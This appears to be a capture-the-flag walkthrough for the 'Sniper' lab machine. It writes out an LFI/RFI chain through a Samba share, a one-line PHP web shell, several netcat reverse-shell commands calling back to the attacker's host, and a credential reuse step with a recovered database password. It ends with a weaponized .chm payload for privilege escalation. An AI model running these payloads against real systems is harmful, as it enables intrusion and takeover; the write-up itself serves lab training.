







Sniper - Writeup
Introduction
Basic enumeration
First of all we are going to start with a simple nmap scan, that allows us to show all forwarded ports of the targeted machine. The -sC parameter is used to perform a scan using the default set of scripts. The -sV parameter is used to perform an automated version scan of the targeted machine. The -p- argument is used to perform a network scan of all available 65,535 TCP ports of that server. -oN is used to store the result of the scan in a locally saved file.
nmap -sC -sV -p- -oN full 10.10.10.151 -v
The result of the scan shows that Port 80 is open, so there is a website that can be enumerated. I also discovered the open ports 135, 139, 445 and 49667, but they are not relevant now.
# Nmap 7.80 scan initiated Tue Feb 2 14:41:30 2021 as: nmap -sC -sV -p- -oN full -v 10.10.10.151 Nmap scan report for 10.10.10.151 Host is up (0.082s latency). Not shown: 65530 filtered ports PORT STATE SERVICE VERSION 80/tcp open http Microsoft IIS httpd 10.0 | http-methods: | Supported Methods: OPTIONS TRACE GET HEAD POST |_ Potentially risky methods: TRACE |_http-server-header: Microsoft-IIS/10.0 |_http-title: Sniper Co. 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 445/tcp open microsoft-ds? 49667/tcp open msrpc Microsoft Windows RPC Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows Host script results: |_clock-skew: 7h00m42s | smb2-security-mode: | 2.02: |_ Message signing enabled but not required | smb2-time: | date: 2021-02-02T20:51:32 |_ start_date: N/A Read data files from: /usr/bin/../share/nmap Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Tue Feb 2 14:51:26 2021 -- 1 IP address (1 host up) scanned in 595.98 seconds
Before accessing the website we are going to start a dirbuster scan, to perform a brute force attack, to find valid pages of the website. As targeted URL we are going to use: http://10.10.10.151:80/. The wordlist that we are going to use, is the medium-sized list that comes with the dirbuster installation. After a few minutes we can find a directory called /blog which will be interesting for the next steps.

Now we are going to enumerate the website. There is a registration and login form, but when registering a new user, they lead to an "under construction" page, so this is probably rabbit hole. After a few minutes I found something interesting in the /blog section of the website, there is a langugage parameter that is probably exploitable.

Getting a shell
This parameter can be used to include different files of the targeted system, so we definetly have a LFI here. In this case we entered /windows/system.ini as lang parameter to check, if the LFI is working correctly. As you can see in the screenshot below, the content of the file gets displayed below the html tag.

After testing the LFI, we can try to inject a remote file from our local machine. Therefore, we are going to configure a Samba server to create a share that is usable for the Windows machine. The share is configured without any special permissions, to allow the targeted machine to execute files from it.
[global] workgroup = smb security = user map to guest = Bad Password [homes] comment = Home Directories browsable = no read only = no create mode = 0750 [public] path = /htb/Sniper public = yes writable = yes comment = smb share printable = no guest ok = yes
To start the Samba service we have to execute the following command.
root@kali:~# service smbd start
To verify, that our smb share is working correctly we can use a tool called smbclient. To list the shares of a server execute the following command.
root@kali:~# smbclient -L \\10.10.14.XX -N
Sharename Type Comment
--------- ---- -------
public Disk smb share
IPC$ IPC IPC Service (Samba 4.12.5-Debian)
SMB1 disabled -- no workgroup availableNow we need to copy netcat to our created share. We are going to use it, to get a reverse shell. The executable is located in the following Github repository.
https://github.com/int0x33/nc.exe.git
After cloning the repository, simply copy the netcat executable file to your shared folder. Before continuing double check the permissions of the file and the folder. We are now going to try to execute netcat with the help of the lang parameter. We would then have an RFI. First we are going to start a listener on our local machine.
root@kali:~# nc -lvnp 1234 listening on [any] 1234 ...
After starting a listener we will create a simple php shell, which looks like the following.
<?php system($_GET['e']); die; ?>
Now we will excute the PHP file, which should be copied to our local share and run netcat with the information of our local machine. The request looks like the following.
GET /blog/?lang=\\10.10.14.XX\public\cmd.php&e=\\10.10.14.XX\public\nc.exe%2010.10.14.XX%201234%20-e%20cmd.exe HTTP/1.1 Host: 10.10.10.151 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Connection: close Upgrade-Insecure-Requests: 1
If everything worked correctly, we should now have a connection between the targeted server and our local machine. We can verify the functionality with a simple whoami.
root@kali:~# nc -lvnp 1234 listening on [any] 1234 ... connect to [10.10.14.XX] from (UNKNOWN) [10.10.10.151] 49735 Microsoft Windows [Version 10.0.17763.678] (c) 2018 Microsoft Corporation. All rights reserved. C:\inetpub\wwwroot\blog>whoami whoami nt authority\iusr C:\inetpub\wwwroot\blog>
Getting user flag
After getting the shell on the remote system, it is time for some enumeration. Therefore I used an automated script called WinPEAS. The file can be found in the following Github repository.
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
I also enumerated the system manually and found something interesting. In the path C:\inetpub\wwwroot\user.

There is a file called db.php which in most cases contains a password that is used to access the locally used database. So let us have a look inside.

We found a password for the database, which is "36mEAhz/B8xQ~2VM". Now we have to find out possible usernames that can be combined with our found password. If we enumerate C:\Users, we can find different home folders, one named "Chris". After finding an interesting username I started powershell in my reverse shell.
C:\Users>powershell.exe powershell.exe Windows PowerShell Copyright (C) Microsoft Corporation. All rights reserved. PS C:\Users>
Powershell gives us the option to switch users, similar to the Linux command "su -", just a little bit more obscured. First we have to convert our password to a so called SecureString. Then we will try to logon with that generated string.
$password = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential("SNIPER\Chris", $password)
Invoke-Command -ScriptBlock {whoami} -Credential $credentials -Computer localhost
sniper\chrisWe can now execute commands as user Chris. To execute a command we can use the -ScriptBlock parameter. Now we are going to start a new reverse shell with netcat. Do not forget to start a listener on your local machine.
PS C:\inetpub\wwwroot\blog> Invoke-Command -ScriptBlock {\\10.10.14.XX\public\nc.exe 10.10.14.XX 4444 -e cmd.exe} -Credential $credentials -Computer localhostWe will now see a response on our listener.
root@kali:/htb/Sniper# nc -lvnp 4444 listening on [any] 4444 ... connect to [10.10.14.XX] from (UNKNOWN) [10.10.10.151] 49688 Microsoft Windows [Version 10.0.17763.678] (c) 2018 Microsoft Corporation. All rights reserved. C:\Users\Chris\Documents>whoami whoami sniper\chris
We now have a shell as user Chris, we can also access the user flag.
C:\Users\Chris\Desktop>type user.txt type user.txt 21******************************
Getting root flag
After some enumeration I found something interesting in the Downloads folder of user Chris. There is a file called instructions.chm which contains the following information.

I made some research on how to use this information, the creator of the file probably knew, that this can be used for privilege escalation. I found out that we can use Nishang to upload a weaponized .chm file, which is often used for privilege escalation.
https://github.com/samratashok/nishang
After installing the HTML Help Workshop I generated a malicious .chm file that spawns a reverse shell.
PS > Out-CHM -Payload "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.XX 8888" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
Now we have to copy the file to the server and we can get a shell as administrator.
root@kali# rlwrap nc -lnvp 8888 Ncat: Version 7.80 ( https://nmap.org/ncat ) Ncat: Listening on :::8888 Ncat: Listening on 0.0.0.0:8888 Ncat: Connection from 10.10.10.151. Ncat: Connection from 10.10.10.151:57228. Microsoft Windows [Version 10.0.17763.678] (c) 2018 Microsoft Corporation. All rights reserved. C:\Windows\system32>whoami whoami sniper\administrator
We can now read the root flag
C:\Users\Administrator\Desktop>type root.txt 56******************************